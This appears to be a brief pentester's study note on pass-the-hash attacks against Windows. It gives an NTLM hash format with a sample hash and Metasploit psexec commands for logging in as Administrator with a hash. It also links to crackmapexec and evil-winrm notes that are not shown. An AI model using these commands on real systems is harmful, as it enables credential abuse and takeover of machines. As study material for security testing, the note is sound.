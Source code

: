 # Pass-the-hash
﻿
Note that if you do not have both LM and NT hashes you can set one of them with 32 0's:
00000000000000000000000000000000:0446385C4CBFBAED9F33E1D7B00E184C

## $ msf>psexec

```bash
msfconsole
exploit/windows/smb/psexec
set smbuser Administrator
set smbpass <ln:ntlm hash>
set target ... # wybrać odpoweidni target (chyba Native Upload)
```

## crackmapexec

![[crackmapexec#Pass-the-hash]]
## evil-winrm
![[notatki/PenTest/Tools/evil-winrm#Pass-the-hash]]
